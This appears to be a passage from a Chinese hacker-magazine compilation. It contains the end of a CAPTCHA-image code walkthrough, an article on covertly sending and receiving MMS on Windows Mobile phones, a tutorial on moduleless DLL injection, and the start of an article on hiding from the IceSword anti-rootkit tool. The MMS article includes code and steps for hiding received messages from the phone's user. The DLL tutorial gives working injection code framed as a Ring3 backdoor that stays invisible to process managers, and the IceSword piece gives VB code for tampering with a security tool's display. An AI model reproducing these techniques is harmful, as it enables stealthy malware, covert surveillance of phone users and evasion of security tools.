    img = new Bitmap((int)vNum.Length * 18, 32);
    g = Graphics.FromImage(img);
    g.Clear(Color.White);
}
```

从上面的代码可以看出不少玄机。第3行收集验证码可以显示的字符集，以“,”分割，存放到字符串 vChar 中。第4行拆分字符串 vChar 到数组 vcArray 中。数组是一种数据结构，它包含若干相同类型的变量。第5行定义类型为 string 的变量 vNum，用于收集随机数。第6行定义类型为 int 的变量 temp，并初始化值为“-1”，用于记录最后随机值，尽量避免同一随机数。第7行生成一个随机数对象 rand。Random 类表示伪随机数生成器，伪随机数是以相同的概率从一组有限的数字中选取的。第8行通过一个简单的算法，以确保不同的随机编号。第12行初始化随机类，使用指定的种子值初始化 Random 类的新实例。第14行获得随机数并赋值于整型变量 t。在第15、16行中，如果获得随机数重复，则递归调用方法 RndNum。第19行将获得的随机数 t 赋予临时变量 temp。第20行获得数组 vcArray 的第 t 个字符并赋予字符串 vNum。第22行返回生成的随机数。

第3行调用 RndNum 方法生成3位随机数，赋予变量 vNum。第4行初始化位图对象 img。封装 GDI+ 位图，此位图由图形图像及其属性的像素数据组成。Bitmap 是用于处理由像素数据定义的图像的对象。第5行初始化 Graphics 类，提供将对象绘制到显示设备的方法。第6行定义内存流 ms，并初始化为 null。第7行生成随机数对象 random，用于生成随机的验证码字符。第8行定义颜色代码集合 colors，用于客户端浏览器随机显示验证码颜色。第9行定义字体集合 fonts，用于客户端浏览器随机显示验证码字体。第10行初始化图像大小。第11行从新的图像对象生成图片。第12行设置白色背景。

```csharp
// 在背景的随机位置画图
for (int i = 0; i < 100; i++)
{
    int x = random.Next(img.Width);
    int y = random.Next(img.Height);
    g.DrawRectangle(new Pen(Color.LightGray, 0), x, y, 1, 1);
}
```

第13行在背景的随机位置画图。第15行返回一个小于所指定最大值的非负随机数。第17行 Graphics.DrawRectangle 方法（Pen, Single, Single, Single, Single），绘制由坐标对、宽度和高度指定的矩形。

```csharp
// 在g中映射验证码
for (int i = 0; i < vNum.Length; i++)
{
    int cindex = random.Next(6);   // 随机颜色索引值
    int findex = random.Next(5);   // 随机字体索引值
    Font f = new System.Drawing.Font(fonts[findex], 15, System.Drawing.FontStyle.Regular);
    Brush b = new System.Drawing.SolidBrush(colors[cindex]);
    int ii = 4;
    if ((i + 1) % 2 == 0)
    {
        ii = 2;
    }

    // 绘制验证码字符
    g.DrawString(vNum.Substring(i, 1), f, b, 3 + (i * 12), ii);
}
ms = new MemoryStream(); // 生成内存流对象
img.Save(ms, ImageFormat.Jpeg); // PNG图像的图像文件格式流
g.Dispose();
img.Dispose(); // 资源回收
return ms;
```

在上面的代码中，第19行在画布 g 中映射验证码。第21行为随机颜色索引值。第22行为随机字体索引值。第23行为随机生成字体。第24行随机生成颜色笔刷。第26行控制不是同一级别的验证码。第30行绘制验证字符。Graphics.DrawString 方法（String, Font, Brush, PointF, StringFormat）使用指定 StringFormat 的格式化属性，用指定的 Brush 和 Font 对象在指定的位置绘制指定的文本字符串。第32行生成内存流对象。第33行为 PNG 图像的图像文件格式流。第34、35行回收资源。

看到这里，你也许会感叹：“大千世界，玄机重重。”你也许还会感叹，图片验证码和平时吃饭穿衣一样，使用确实很简单，背后却可能有如此紧凑的安全保护流程。的确，了解了这些代码的来龙去脉，我们就会清晰地了解网页图片验证码背后的秘密了。

前置知识：无

关键字：WM，彩信

#### 实现在 Windows Mobile 手机中彩信的后台收发

文/图 coldzenleft

彩信即 MMS（Multimedia Message Service），是继短信（SMS）、EMS（增强型短信服务）之后的第三代短信服务。彩信极大程度地扩展了可收发的媒介类型，文本、简单图片和铃声不在话下，复杂的图片，如照片、大型的图表以及音乐片段、视频剪辑等也是彩信的用武之地。

本文的目的主要是说明如何在 Windows Mobile 手机（智能手机）中，实现彩信的收发，并且尽可能不被人发现。事实上网上研究这个的肯定大有人在，毕竟彩信的数量与我们手机的话费是息息相关的，而且彩信可以传输许多数据，如图片、视频等，因此可以说实现了后台的彩信收发无疑是对个人隐私安全的极大挑战，我们平时也得关注自己的手机安全，不能让“手机”变“手雷”。

以下，我会从彩信的收发原理、彩信数据包（MMS PDU）的组成以及在手机中编程实现彩信的收发过程逐步进行介绍。

手机A有时这种短信回执被发信者给屏蔽了。当然，如果说有的手机不能支持彩信接收业务，或者对方拒绝了你的彩信，发信者A则也会得到信息中心的提示，例如“尊敬的客户：你发送给B的彩信，由于未被接收方提取，已成功转发到XXXX”等。以上说明如图2所示。

##### 彩信的收发原理简介

彩信和其他 WAP 应用的架构差不多，都要经过 WAP Gateway 中转。彩信并非是直接投递给接收方，而是像邮件一样，先发送给一个彩信（中转）代理服务器（MMS Proxy-Relay），彩信代理服务器暂时保存彩信，然后通过 PUSH 协议给彩信接收方发送一个通知，彩信接收方收到通知后从彩信代理服务器上下载以获取彩信的资源内容。彩信客户端（MMS Client，这里即指手机）和 WAP 网关之间用 WAP 传输协议传输，而 WAP 网关和彩信代理服务器之间是传统的 TCP/IP 协议，如图1所示。

假设有两部手机A和B，手机A想对手机B发送彩信，首先会通过 WAP 协议中的无线会话协议（WSP）发起会话请求，并由面向连接服务的无线传输协议（WTP）将彩信的资源数据传输出去。WAP PUSH 是一种特殊的短信格式（这个在彩信接收部分会细讲），接收者手机B会收到这条“短信”并且按照里面所提供的网址到 MMSC 去下载，下载完成之后会发送一个下载成功的提示给代理服务器，服务器也会将此彩信已发送成功并且被接收者提取的消息发给发信者手机A（有时这种短信回执被发信者给屏蔽了）。

##### 彩信数据包（MMS PDU）的组成

如果我们要发送一条彩信，除了知道怎么建立连接、怎么发送以外，还有一个重要的因素就是彩信数据包（MMS PDU）的建立。在 NOKIA 论坛上可以下载到一篇比较“古老”（2003年6月）的论文，叫做《How to Create MMS Services》，里面对于构造彩信的协议数据单元（PDU）有着详细的描述。但是可惜的是，不知道是因为这篇文章的时间太早还是因为实际采用中考虑到的其他因素，事实上该论文所提供的例子 MMS PDU 和实际的彩信数据包相差比较大。不过即便如此，该论文仍然是构造彩信数据包的重要参考。

如那篇论文中所提到的，MMS PDU 是由 MMS Header 和 MMS Body 组成的，如图3所示。

彩信的 PDU 定义了一些常用的消息域（以 X-Mms- 打头），有的消息域是公有的，每种消息都可以使用；有的消息域是专用的，只有特定的消息才能使用。除了常用的消息域外，也可以自定义消息域（以 X- 打头）。

其中常见的消息域有 X-Mms-Message-Type、X-Mms-Transaction-ID、X-Mms-Version、From、Subject、Content-Type 等。事实上，彩信的 PDU 编码和 HTTP 协议有点类似，但是由于为了节省带宽（毕竟是手机嘛），彩信的 PDU 消息域采用的是二进制编码（WAP 协议也是），其头部域名的规则表如表1所示。

### 表1

| Name | Assigned Number |
|---|---|
| Bcc | 0x01 |
| Cc | 0x02 |
| X-Mms-Content-Location | 0x03 |
| Content-Type | 0x04 |
| Date | 0x05 |
| X-Mms-Delivery-Report | 0x06 |
| X-Mms-Delivery-Time | 0x07 |
| X-Mms-Expiry | 0x08 |
| From | 0x09 |
| X-Mms-Message-Class | 0x0A |
| Message-ID | 0x0B |
| X-Mms-Message-Type | 0x0C |
| X-Mms-MMS-Version | 0x0D |
| X-Mms-Message-Size | 0x0E |
| X-Mms-Priority | 0x0F |
| X-Mms-Read-Report | 0x10 |
| X-Mms-Report-Allowed | 0x11 |
| X-Mms-Response-Status | 0x12 |
| X-Mms-Response-Text | 0x13 |
| X-Mms-Sender-Visibility | 0x14 |
| X-Mms-Status | 0x15 |
| Subject | 0x16 |
| To | 0x17 |
| X-Mms-Transaction-Id | 0x18 |

不过，通过实际抓包数据以及 NOKIA 文档提供的例子上来看，比如我要表示 X-Message-Type，在实际的数据中并不是写成 0x0C，而是 0x8C（0x0C+0x80），这是一种转义的表示方法。

另外，这里还有必要说明下，我们除了参考《How to Create MMS Services》以外，对于头部域名的具体数据定义，我们还需要参考其他资料，如 WAP-206、WAP-209 以及 OMA-MMS-ENC-V1_2。例如我在 WAP-209 上面看到的有关 X-Message-Type 的定义如下：

> 7.2.4 Message-Type field  
>   
> Message-type-value = m-send-req \| m-send-conf \| m-notification-ind \| m-notifyresp-ind \| m-retrieve-conf \| m-acknowledge-ind \| m-delivery-ind  
>   
> m-send-req = \<Octet 128>  
> m-send-conf = \<Octet 129>  
> m-notification-ind = \<Octet 130>  
> m-notifyresp-ind = \<Octet 131>  
> m-retrieve-conf = \<Octet 132>  
> m-acknowledge-ind = \<Octet 133>  
> m-delivery-ind = \<Octet 134>  
>   
> Unknown message types will be discarded.

因此，要表示发送彩信的时候，就是 m-send-req（即128=0x80），所以编码方式即是“0x8C 0x80”。我们可以从一个自制的 MMS 数据包开头部分中看到这个数据包所含的东西，如图4所示。

图4

“8C 80”表示消息类型是“发送”；“8D 90”表示彩信的版本是1.0；“8B 31 37 34 30 00”表示消息号为1740；“89 0D 80 ......”中，“89”是发送方，“0D”是长度，“80”是 address-present-token，后面是发送方的手机号；“97 ...”表示接收方手机号。

MMS Header 主要是消息格式、传输号、发送方以及接收方的电话号码，还包括内容格式、Related 形式和 Mixed 形式的选择。MMS Body 则包括的是彩信的内容，如主题、发信内容、附加资源等。其实可以把彩信体（MMS Body）看成一种复合结构，即主题、内容（彩信的文本非图像数据，单独以文本文件的形式传输）、资源（可能有很多，按资源的类型、大小逐个组包）。这里大家一定注意，为了实现通用性，我们在主题的编码尽量采用 UTF-8，然而彩信的文本数据内容倒是随便，毕竟是以文本文件形式传输，可以看成是一种附加资源，因此写成什么编码都行。

是加密的都行，反正肯定可以原样传到，图片等多媒体资源也是如此。

除此之外，我们在彩信组包的过程中还有一点很重要，那就是“内容类型”，因为彩信的版本就我所抓包看到的，有 1.0 和 1.2（没有 1.1，很奇怪）两种。这个倒是无所谓，即使是利用 1.0 的版本给 1.2 版本的手机发彩信，一样可以解析，反之亦然。但是还有个问题——内容类型，就不得不考虑啦！

内容类型分为两种：Related（发布版）和 Mixed（混合版）。早期的彩信使用的是混合版，而现如今的手机大多是使用的发布版，甚至有的高级手机都根本不支持混合版这种模式了。

所谓的混合版，即所有的消息内容混合在一起，没有时间上的顺序。在终端可能在同一时间一次就把所有的消息内容显示出来，消息内容在 MMS 中的存放位置如图 5 所示。


发布版就是各消息内容之间是有一定的关系的，该关系可能是显示时间上的先后、显示的位置等。这样在终端显示该消息的时候，就可以以类似小电影的方式显示一系列信息，使得该 MMS 的显示更加趣味化，如图 6 所示。


Mixed 和 Related 的最大差距就是 SMIL，Related 比 Mixed 多了一个 SMIL。SMIL（Synchronized Multimedia Integration Language）是由 W3C 制定的基于 XML 的表达语言标准，相当于 HTML 之于 Web。通过 SMIL 的这些信息，决定了其他消息内容的显示大小、先后顺序、位置等，从而实现了小电影似的彩信播放，即使你发的不是 GIF，也可以实现幻灯片似的滚动播放。现如今，大多数手机都是使用 Related 方式，如果为了和其他高端手机的兼容性，最好采用 Related 方式，其写法如下：

```xml
<head>
  <meta name="title" content="mms" />
  <layout>
    <root-layout background-color="#ffffff" width="129" height="226" />
    <region id="Image" left="4%" top="2%" width="92%" height="89%" fit="meet" />
    <region id="Text" left="4%" top="91%" width="87%" height="16%" fit="meet" />
  </layout>
</head>
<body>
  <par dur="5000ms">
    
    <text src="textout.txt" region="Text" />
  </par>
</body>
</smil>
```

一般试验时，可以在已经能成功发送彩信的 Mixed MMS PDU 中的合理位置，如 MMS Header 的 Content-Type 中添加“application/smil”，以及 MMS BODY 的首部或者尾部添加 SMIL 脚本。

另外，对于彩信构建的方法，除了参考文档以外，还可以在 Windows Mobile 手机中寻找办法。例如有的旧版本 Windows Mobile 手机会将彩信的 PDU 存放在某些文件夹中，这些数据可以帮助我们逆向分析彩信的协议。还有就是 NOKIA 手机第二版对于软件安装不是很严格，有些抓包软件，如 EZSNIFFER，可以帮助我们截获彩信数据包，从而制作出一个能成功发送的 MMS PDU。

##### 短信的发送

### 编程解析 / PROGRAMMING ANALYSE
`栏目编辑` · `socket`

彩信发送最难的部分莫过于数据包的构造。如果能构造出一个正确的数据包，我们就可以利用最基础的网络编程知识，把彩信成功发送出去并且能让对方正确接收解析。

其实按理来说，彩信的发送并不简单，手机到服务器是使用的 WAP 协议，而 WAP 协议的复杂程度也相当高……不过参考网上资料并实践后发现，用 HTTP 协议一样能够实现效果。

虽然彩信是建立在 WAP 协议之上的一种应用，发送彩信通常先建立 WAP 连接，但是否必须走 WAP 取决于网络服务商网关与彩信服务器。比如在北京可支持 HTTP 方式发送彩信，因此可由 HTTP 完成数据包发送。

本文主要强调实现，因此采用大家熟悉的 HTTP 协议来实现彩信发送。

在使用 HTTP 协议发送彩信时，有两个地方需特别注意：一是 HTTP 请求，二是创建 Socket 的关键数据写法。最难的是第一个问题，因为 HTTP 或 MMS PDU 写错都会导致发送失败，且常返回 4XX/5XX 错误。作者参考了 NOKIA 手机抓包数据作为蓝本。

```http
Host: mmsc.monternet.com
Accept: */*, application/vnd.wap.wap.sic
Accept-Charset: utf-8
Accept-Language: en
User-Agent: NokiaN72/... Series60/2.8
Content-Length: 423
Content-Type: application/vnd.wap.mms-message
x-wap-profile: http://nds1.nds.nokia.com/uaprof/NN70-5r100.xml
```

然后结合测试机——夏新（Amoi）WM 手机的实际情况，反复测试，得到的 HTTP 请求如下：

```http
POST http://mmsc.monternet.com/ HTTP/1.1
Content-Type: application/vnd.wap.mms-message
Accept: application/vnd.wap.mms-message,text/plain,*/*
User-Agent: AmoiE860/.../WAP2.0 ... Mozilla/4.0
Host: mmsc.monternet.com
Content-Length: 4648
Expect: 100-continue
```

这里说明一下，POST 请求作用明确；`mmsc.monternet.com` 为梦网代理。`User-Agent` 是用户信息（主要是手机型号）。写 Socket 时需要注意代理服务器与端口为 `10.0.0.172:80`，移动 HTTP 网关即该地址。

另外，在创建 Socket 之前还需打开手机 GPRS。由于选择的是移动 HTTP 代理，因此建立 CMWAP 连接。连接代码如下：

- 1. GPRS 连接
- 2. CMWAP 连接

```cpp
// 初始化连接结构
CONNMGR_CONNECTIONINFO ConnInfo;
ZeroMemory(&ConnInfo, sizeof(ConnInfo));
ConnInfo.cbSize = sizeof(ConnInfo);
ConnInfo.dwParams = CONNMGR_PARAM_GUIDDESTNET;
ConnInfo.dwFlags = CONNMGR_FLAG_PROXY_HTTP | ...
ConnInfo.dwPriority = CONNMGR_PRIORITY_USERINTERACTIVE;
ConnInfo.guidDestNet = DestInfo.guid;
ConnInfo.bExclusive = FALSE;
ConnInfo.bDisabled = FALSE;
DWORD dwStatus = 0;
hResult = ConnMgrEstablishConnectionSync(&ConnInfo, &m_hConnection, 10*1000, &dwStatus);
```

```cpp
BOOL GPRSConWapConnect()
{
    DWORD dwIndex = 0;
    DWORD dwStatus = 0;
    CONNMGR_CONNECTIONINFO sConnInfo = {0};
    sConnInfo.cbSize = sizeof(CONNMGR_CONNECTIONINFO);
    ...
}
```

```cpp
CONNMGR_CONNECTIONINFO;

sConnInfo.dwParams = CONNMGR_PARAM_GUIDDESTNET;

sConnInfo.dwFlags = CONNMGR_FLAG_PROXY_HTTP | CONNMGR_FLAG_PROXY_WAP | CONNMGR_FLAG_PROXY_SOCKS4 | CONNMGR_FLAG_PROXY_SOCKS5;

sConnInfo.dwPriority = CONNMGR_PRIORITY_USERINTERACTIVE;

sConnInfo.bExclusive = FALSE;
sConnInfo.bDisabled = FALSE;

GUID IID_DestNetWAP = { ... };
sConnInfo.guidDestNet = IID_DestNetWAP;

if (FAILED(ConnMgrEstablishConnectionSync(&sConnInfo, &m_hConnection, 3000, &dwStatus))) {
    return FALSE;
}
return TRUE;
```

（3）发送彩信关键代码

```cpp
CloseHandle(handle); // 关闭打开的MMSDUMP文件
delete []pAllbyteData; // 清空文件缓存
ExitThread(0);

// 获得返回的数据包信息，判断发送状况
RecvData_t RecvData;
DWORD dwRet = WaitForSingleObject(CQueue<RecvData_t>::RecvInstance()->GetEvent(), 6000);
if (dwRet == WAIT_OBJECT_0) {
    CQueue<RecvData_t>::RecvInstance()->Pop(RecvData);
}
```

由此，彩信的发送就到这里。要相信，只要你的“HTTP_HEADER”+“MMS_PDU”没有写错，彩信是肯定能够发出去的。

##### 彩信的接收

当你能够成功将彩信发出去的时候，接下来就要面临一个比较棘手的问题：彩信的接收。在这里要说明下之前的彩信收发原理：彩信并非直达，当你接收到彩信的时候，其实首先传入到你手机中的不是彩信，而是利用 WAP PUSH 方式传入进来的彩信通知（NOTIFICATION）。

WAP PUSH 又叫做服务信息或推入信息，是一种特殊格式的短信。PUSH 信息无论是否被用户打开，都会保留在手机的“推入收件箱”内，用户可以反复打开。

但正因为这个所谓的 WAP PUSH 搞出来的特殊格式短信让人特别烦恼，因为它不属于正常短信，在有些手机中根本找不到，更不用说导出分析。

而 WinMobile 提供的开源实例程序 MAPIRULE 也不能拦截到这个特殊短信。虽然网上有人提到可用 PushRouter_RegisterClient 拦截 push 消息，但资料不足，难以按其实现。

不过有人提到用 RIL（无线接口层）来做，前文也提过其意义和用法。这里通过编写 RIL 回调函数，对 RIL_NOTIFY_MESSAGE 和 RIL_NOTIFY_STATUSMESSAGE 进行监控，不漏掉任何短信形式。

```cpp
// 构建发送的数据包
char *serverIP = "10.0.0.172"; // 代理服务器
unsigned short serverPort = 80; // 端口号
CIOSelectClientInstance(serverIP, serverPort);

DWORD dwSizeLow = 0; // 存储文件大小的变量
DWORD dwSizeHigh, nBytesRead;
char *pAllbyteData = NULL;

// 获取PacketDUMP文件的路径代码
// 读取文件成功之后，将文件读到psenddata之中

const char *psenddata = pAllbyteData;
unsigned int len = dwSizeLow;

// 发送数据包，并判断是否发送成功
bool bRet = CIOSelectClientInstance(serverIP, serverPort)->SendData(psenddata, len);
if (bRet == false) {
    addLBMess("Send Data Failed!\r\n");
}
```

```cpp
void CALLBACK NotifyCallback(DWORD dwCode,
    const void *lpData, DWORD cbData, DWORD dwParam)
{
    ...
}
```

```cpp
switch (dwCode & RIL_NCLASS_ALL)
{
    case RIL_NCLASS_MESSAGE:
    {
        switch (dwCode)
        {
            case RIL_NOTIFY_MESSAGE:
            {
                RILMESSAGE *prm = (RILMESSAGE *)lpData;
                DisplayMessageURL(prm);
                break;
            }
            case RIL_NOTIFY_STATUSMESSAGE:
            {
                RILMESSAGE *prm = (RILMESSAGE *)lpData;
                DisplayMessageURL(prm);
                break;
            }
            default:
                break;
        }
        break;
    }
    default:
        break;
}

void DisplayMessageURL(RILMESSAGE *prmMsg)
{
    // ...
    bool iRet = GetURLForm.rgbMsg(prmMsg->msgInDeliver.rgbMsg, szURL);
    // ...
}
```

包的时候，发送一个 HTTP GET 就可以把彩信下载回来：

```http
GET http://218.141.89.5/YUmlRFMfhxoB HTTP/1.1
Host: 218.141.89.5
Accept: */*, application/vnd.wap.sic
Accept-Charset: utf-8
Accept-Language: en
User-Agent: AmoiE860/6J08/WAP20 Profile/MIDP2.0 Configuration/CLDC1.1 Mozilla/4.0
Host: mmsc.monternet.com
```

注意，数据包不可能一次性下载完，因此我做了一个循环，在收到第一个包的时候还包括“200 OK”等字样，里面有 content-length，你可以根据 content-length 获得这个彩信数据包的总大小，从而决定你的循环情况，代码段如下。

```cpp
// content-length中具体的长度
int iContentStrLen = GetContentLengthByRecvBuf(RecvDatauserDatadata, RecvDatauserDatalen);
// HTTP请求包的长度
int iHTTPHeaderLen = GetHTTPHeaderLength(RecvDatauserDatadata, RecvDatauserDatalen);

// 异常情况，HTTP请求长度为0或者没有content-length
if (iHTTPHeaderLen == -1)
{
    delete lpAllbyteData; // 清空文件缓存
    return 2;             // 表示content-length太小
}

// 已经收到的数据包大小
int iGetByte = RecvDatauserDataLen - iHTTPHeaderLen;

// 需要接收的总长度大于第一次接收数据包的长度时
if ((iContentStrLen + iHTTPHeaderLen) > (int)RecvDatauserDatalen)
{
    do
    {
        ZeroMemory(RecvDatauserDatadata, bufferSize);
        RecvDatauserDataLen = 0;
        if (WAIT_OBJECT_0 == WaitForSingleObject(CQueue<RecvData_t>::RecvInstance()->GetEvent(), 6000))
        {
            CQueue<RecvData_t>::RecvInstance()->Pop(...);
        }
    } while (...);
}
```

彩信的通知正好就存到 RILMESSAGE 这个结构体中，我通过真机调试，保存拦截到的数据如图 7 所示。


## 图7

这个彩信通知的数据包我就不细说了，“8C 82”就是表示 X-MMS-Type: m-notification-ind，另外“83”后面接的数据是 content-location: http://211.141.89.5/YUmlLRFMfhxoB，这里的 YUmlLRFMfhxoB 就是 TransactionID，每条彩信的 ID 都不可能是一样的。当你截获到这个数据包的时候，发送一个 HTTP GET 就可以把彩信下载回来：

```cpp
RecvData()
{
    // 建议参数不能为空
    if (RecvData.userDataLen > 0) {
        RealTimeWriteFile(gRecvFilePath, RecvData, userData, RecvData.userDataLen);
        // 累加接收到的数据总大小
        iGetByte = iGetByte + RecvData.userDataLen;
    }

    // 收到空包且总长度不为零说明没有收完，还要再来一次
    while (iGetByte < iContentStrLen)
    {
        ...
    }
}
```

接收完了彩信的数据包后，关键就是解析了。另外还有个需要注意的就是，在你接到彩信通知的时候，手机可能也会接到。根据我的测试，手机应该比你慢这么一会，所以你如果不想要用户知道他收到了彩信，就应该在收到彩信通知的时候立刻回复一个 ACK：“HTTP/1.1 200 OK, Success”表示彩信通知已经收到，这样就没人会在意了。

##### 小结

其实当你能够自己制作一个 MMS PDU，然后通过恰当的方式传输出去，并且在接收过程中能够提前中断掉本机程序正常的接收，就算是达到了个彩信的后台收发。因为我们就没有任何调用原始 tmail.exe（Windows Mobile 手机中短信、彩信的收发程序）的地方。

彩信的协议甚为复杂，加上 WAP 这些无线协议，使得编程的工作量大增；但是好在现在许多地方都支持 HTTP 方式传输，因而利用 HTTP 协议发送和下载彩信不失为一种简单易行的办法。

毕竟本文只是一种研究，还是希望读者不要用来使坏，毕竟谁也不希望自己的手机变成手雷。

- 前置知识：VC
- 关键词：编程、无模块 DLL、进程注入

## 无模块DLL的进程注入剖析


一个基本的后门程序至少不能在各种进程管理器中有陌生进程存在，也不能有明显的 DLL 模块。如果以上最基本的两点都做不到，就不算是合格的后门。最好的方法就是将后门做在 Ring0 级，然而 Ring0 级的程序设计对编程新手来说是件痛苦的事。如何在 Ring3 级别写出既能正常工作又能隐藏的后门程序是编程新手梦寐以求的梦想。本文就将针对 Ring3 级别后门的隐藏方法进行一些简单的研究。

如《Windows核心编程》中所讲，较方便也较流行的 DLL 注入方式是使用 VirtualAllocEx、WriteProcessMemory 和 CreateRemoteThread 这几个 API 及改变线程上下文的方法。这种方法虽然没有陌生进程存在，但总会有一个扎眼的 DLL 模块存在于某个进程当中，对于稍微懂得些许 Windows 操作系统知识的人来说只要用一个稍微高级的进程管理器或运行 `tasklist /m` 命令，即可查找出藏祸根源。如何对 DLL 进行注入，而又让管理员看不到 DLL 的存在是成败的关键。我们在此采用的方法是首先将 DLL 注入到目标进程，之后将注入后的 DLL 代码拷贝到新的内存区域中。

##### 实现原理

首先请出我们的老朋友——DLL 注入。

缓冲区中，接着立即卸载刚才加载的 DLL。到这大家就要问了，如果 DLL 被卸载了，进程空间是没有了 DLL 模块，那么怎样实现我们的后门程序呢？关键就在这里，之前我们已经在新的缓冲区中保存了加载后的 DLL 代码，在卸载 DLL 后只要将保存的副本重新写入进程空间当中，再启动这段代码即可实现与原 DLL 注入相同的功能。当然，重新写入的 DLL 副本必须保证其基地址和之前 LoadLibrary 加载的地址完全一样，否则不仅程序会崩溃，重定位的问题也会使你崩溃。

## 无模块DLL注入

首先按照常规注入 DLL 的方法依次进行，具体如下：

- 1. 调整 Loader 进程权限为 `SE_PRIVILEGE_ENABLED` 权限，用到的自定义函数如下，其中的两个参数一个为进程句柄，一个为所要提到的权限名字，这里为 `SE_DEBUG_NAME`。
- 2. 将 DLL 插入到目标进程，仍然用比较老套的方法——`VirtualAllocEx`、`WriteProcessMemory` 和 `CreateRemoteThread` 这三个 API。
- 3. 此时是无模块 DLL 注入成功的关键一步，必须在卸载 DLL 之前将刚刚插入的 DLL 代码保存在一个新的缓冲区中。保存之前须知道 DLL 加载的基地址和代码大小等信息，`GetThreadInformation` 可以获得加载的 DLL 模块的各种信息，包括模块基地址和模块大小。
- 4. 将 `FreeLibrary` 的地址写入目标进程地址空间，卸载 DLL，这样任何进程管理器都不会再看到目标进程中的后门 DLL 模块。
- 5. DLL 模块被卸载后，若要使 DLL 的功能重新实现，就得用上 Buffer 中的副本了。

```c
BOOL AdjustPrivileges(
    HANDLE hProcess,        // 进程句柄
    LPCTSTR lpPrivilegeName // 权限名字
);
```

```c
BOOL InjectRemoteProcess(
    HANDLE hProcess,
    char* Dllfullname // DLL 的完整路径
);
```

```c
BOOL GetThreadInformation(
    DWORD ProcessID,
    char* Dllfullname
);
```

```c
MODULEENTRY32 Thread;
HANDLE hthSnapshot = NULL;

// 取得指定进程的所有模块映像
hthSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, ProcessID);
if (hthSnapshot == NULL) return FALSE;

// 取得所有模块列表中的指定模块
BOOL bMoreMods = Module32First(hthSnapshot, &Thread);
if (bMoreMods == FALSE) return FALSE;

for (; bMoreMods; bMoreMods = Module32Next(hthSnapshot, &Thread)) {
    if (!strcmp(Thread.szExePath, Dllfullname))
        break;
}

if (!strcmp(Thread.szExePath, Dllfullname))
    return TRUE;
else
    return FALSE;
```

其中 `MODULEENTRY32` 是用来保存模块各种信息的结构体，`szExePath` 成员为加载模块的完整路径，函数成功执行后会将模块信息返回到 `Thread` 参数中，根据模块的基地址 `Thread.modBaseAddr` 和大小 `Thread.modBaseSize` 即可将 DLL 代码写入到 Buffer 中。

```c
// 重新分配虚拟内存，并将副本写入原地址中
LPVOID Alloc;
Alloc = VirtualAllocEx(hRemoteProcess,
                       Thread.modBaseAddr,
                       Thread.modBaseSize,
                       MEM_COMMIT | MEM_RESERVE,
                       PAGE_EXECUTE_READWRITE);
if (Alloc == NULL) {
    // ...
}
```

```c
printf("VirtualAllocEx Failed!\n");
return 0;

BOOL Writer; DWORD Written;
Writer = WriteProcessMemory(hRemoteProcess, Thread.modBaseAddr, buffer, Thread.modBaseSize, &Written);
if (Writer == 0) {
    printf("WriteProcessMemory Failed!\n");
    return 0;
}
// 重新启动新的代码
HANDLE hNewThread = NULL;
if ((hNewThread = CreateRemoteThread(
    hRemoteProcess,
    NULL,
    0,
    (LPTHREAD_START_ROUTINE)(Thread.modBaseAddr + BackDoorFun),
    NULL,
    0,
    NULL)) == NULL) {
    printf("CreateNewThread fail!\n");
    return 0;
}
return 0;
```

其中注意以下 3 点：一是 `VirtualAllocEx` 的第四个参数必须为 `MEM_COMMIT | MEM_RESERVE`，否则会失败；二是 `CreateRemoteThread` 的第四个参数 `BackDoorFun` 为 DLL 中实现后门功能的函数基地址，在卸载 DLL 前，可将 `GetProcAddress` 函数插入到目标进程空间中，使用与获得 `LoadLibrary` 地址的相同方法取得后门函数的地址，简单起见，直接使用 LordPE 软件取得函数地址；若后门功能在 DllMain 中实现，则函数地址为 DLL 的入口点；三是 `CreateRemoteThread` 的第四个参数为后门函数的参数，若其有参数则需要再次使用 `VirtualAllocEx` 和 `WriteProcessMemory` 函数将参数写入目标进程空间中，若没有参数直接写 `NULL` 即可。

至此，无模块 DLL 的注入已经完成，至于如何继续完善此后门程序，大家可尽情发挥自己的想象力和创造力，不再赘述。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找。）

前置知识：VB  
关键词：编程、ARK、进程隐藏

#### 冰刃下现形

##### 驱动隐藏自身


文/图 胡文亮

刚开始学底层编程的时候，特别喜欢“打打杀杀”，比如弄个驱动“强制”结束杀毒软件，或者是模拟单击关闭冰刃，现在想起来，真是一点意义都没有。因为一个有商用价值的 Rootkit，是不能乱杀进程的，而是要通过更加巧妙的办法隐藏自身。上次我在《钩子的另类用法》一文中提到了利用 Hook MmIsAddressValid 来逃过冰刃、狙剑、PsNull 的进程检测。

不过用到了驱动，这次再提供一个方法，连驱动都不需要使用。

很久以前《黑客防线》曾经有过一篇文章《另类方式隐藏进程》，作者想到了一个另类的办法在任务管理器中隐藏进程：发送消息修改任务管理器中自己进程的名字，使得用户辨认不出异常的进程。他的思路启发了我，但我认为在任务管理器中隐藏进程没有什么意义，在 ARK 中隐藏进程才有意义。不仅仅只是进程，还有其他与自己相关的东西：文件、启动项。在此，我以冰刃为例做说明。

首先我们要找到冰刃的列表框句柄和 PID。直接使用 FindWindowEx 肯定是不行的，因为冰刃为了防止窗口攻击，做了随机窗口标题名和随机窗口类型名。我们要使用 EnumWindows 结合冰刃的窗口特征才能得到冰刃的列表框句柄。

```vb
Private Function EnumWindowsProc(ByVal hwnd As Long, ByVal lParam As Long) As Long
    Dim hWnd1, hWnd2 As Long
    hWnd1 = FindWindowEx(hwnd, 0, "AfxMDIFrame42s", vbNullString)
    hWnd2 = FindWindowEx(hwnd, 0, "AfxControlBar42s", vbNullString)
    If hWnd1 <> 0 And hWnd2 <> 0 Then
        ISlvParent = hWnd1
        GetWindowThreadProcessId hwnd, GetPid
    End If
    EnumWindowsProc = True
End Function

Public Function FindIceswordPid() As Long
    EnumWindows AddressOf EnumWindowsProc, 0
    FindIceswordPid = GetPid
End Function

Public Function GetISListViewHandle() As Long
    FindIceswordPid
    ISlvParent = FindWindowEx(ISlvParent, 0, "AfxMDIFrame42s", vbNullString)
    GetISListViewHandle = FindWindowEx(ISlvParent, 0, "SysListView32", vbNullString)
End Function
```

如果是搞窗口攻击就简单了，消息洪水一过去，冰刃就挂了。但是我们今天不使用暴力，而是使用智慧。接下来要得到冰刃列表框的内容：

```vb
****************************
* 函数名 GetListviewItem
* 输入: ByVal hWindow(Long)  -- ListView控件句柄
*       ByVal ProcessID(Long) -- 进程ID
*       ByVal pColumn(Long)   -- 列
*       ByVal pRow(Long)      -- 行
* 输出: 出(String)            -- 内容
* 功能描述: 得到ListView控件中某个Item的内容
****************************
